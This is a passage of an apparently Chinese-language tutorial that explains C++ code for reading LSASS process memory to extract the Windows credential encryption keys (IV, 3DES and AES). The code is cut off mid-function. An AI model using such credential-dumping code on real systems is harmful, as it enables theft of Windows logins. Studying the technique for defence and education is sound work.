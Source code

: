 ```c++
BOOL AcquireKeys(PLSA_CONTEXT cLsass, PPROCESS_VERY_BASIC_MODULE_INFORMATION pModuleInformation)
{
	BOOL status = FALSE;
	MEMORY_SEARCH sMemory = { {pModuleInformation->DllBase.address, pModuleInformation->SizeOfImage}, NULL };
	PPATCH_GENERIC currentReference;
	MEMORY_ADDRESS lsassMemory;
	LONG offset64;

	if (currentReference = GetGenericFromBuild(KeyReferences, ARRAYSIZE(KeyReferences), cLsass->osContext.BuildNumber))
	{
		if (MemorySearch(cLsass->hProcess, currentReference->Search.Pattern, currentReference->Search.Length, &sMemory))
		{
			lsassMemory.address = (PBYTE)sMemory.result + currentReference->Offsets.off0;
			if (ReadProcessMemory(cLsass->hProcess, lsassMemory.address, &offset64, sizeof(LONG), NULL))
			{
				lsassMemory.address = (PBYTE)lsassMemory.address + sizeof(LONG) + offset64;
				if (ReadProcessMemory(cLsass->hProcess, lsassMemory.address, &InitializationVector, sizeof(InitializationVector), NULL))
				{
					lsassMemory.address = (PBYTE)sMemory.result + currentReference->Offsets.off1;
					if (AcquireKey(&lsassMemory, cLsass, &k3Des))
					{
						lsassMemory.address = (PBYTE)sMemory.result + currentReference->Offsets.off2;
						if (AcquireKey(&lsassMemory, cLsass, &kAes))
						{
							status = TRUE;
						}
					}
				}
			}
		}
	}
	return status;
}
```

`AcquireKey()` 函数定义如下，用于获取 `h3DesKey` 和 `hAesKey` 的地址。这里以获取 `h3DesKey` 为例进行讲解，获取 `hAesKey` 的方法相同。

```c++
BOOL AcquireKey(PMEMORY_ADDRESS pLsassMemory, PLSA_CONTEXT cLsass, PBCRYPT_GEN_KEY pGenKey)
{
	BOOL status = FALSE;
	MEMORY_ADDRESS localMemory;
	BCRYPT_HANDLE_KEY hKey; PHARD_KEY pHardKey;
	PVOID buffer; 
	SIZE_T szkey;
	LONG offset;

	if (cLsass->osContext.BuildNumber < WIN_MIN_BUILD_8)
	{
		szkey = sizeof(BCRYPT_KEY);
		offset = FIELD_OFFSET(BCRYPT_KEY, hardkey);
	}
	else if (cLsass->osContext.BuildNumber < WIN_MIN_BUILD_BLUE)
	{
		szkey = sizeof(BCRYPT_KEY8);
		offset = FIELD_OFFSET(BCRYPT_KEY8, hardkey);
	}
	else
```